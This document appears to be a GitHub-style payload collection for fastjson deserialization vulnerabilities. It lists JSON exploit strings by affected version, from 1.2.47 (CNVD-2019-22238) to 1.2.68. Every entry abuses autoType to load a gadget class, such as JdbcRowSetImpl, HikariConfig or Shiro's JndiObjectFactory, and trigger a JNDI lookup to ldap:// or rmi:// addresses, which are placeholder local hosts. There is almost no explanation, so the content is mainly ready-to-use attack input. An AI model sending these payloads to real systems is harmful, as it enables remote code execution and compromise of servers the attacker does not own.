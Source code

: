 **fastjson<=1.2.47(CNVD-2019-22238)**

```
{"v47":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"xxx":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://0.0.0.0","autoCommit":true}}
```

**fastjson<=1.2.59**

```
{"v59_error":{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://127.0.0.1"}}
{"v59_error":{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://127.0.0.1"}}
```

**fastjson<=1.2.61**

```
{"v61_error":{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"rmi://127.0.0.1"}}

{"v61_error":{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://127.0.0.1","Object":"a"}}
```

**fastjson<=1.2.62**

```
{"v62":{"@type":"org.apache.xbean.propertyeditor.JndiConverter","asText":"ldap://0.0.0.0"}}
{"v62_error":{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://0.0.0.0"}}}
{"v62_error":{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://0.0.0.0"}}
{"v62_error":{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor","parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://0.0.0.0"},"namespace":""}}
```

**fastjson<=1.2.66**

```
{"v66":{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory","jndiNames":["ldap://0.0.0.0"],"Realms":[""]}}
{"v66":{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://0.0.0.0"}}

{"v66_error":{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://0.0.0.0"}}
{"v66_error":{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://0.0.0.0"}}
```

**fastjson<=1.2.68**

```
写文件覆盖方法
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://0.0.0.0"}
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://0.0.0.0"}
```
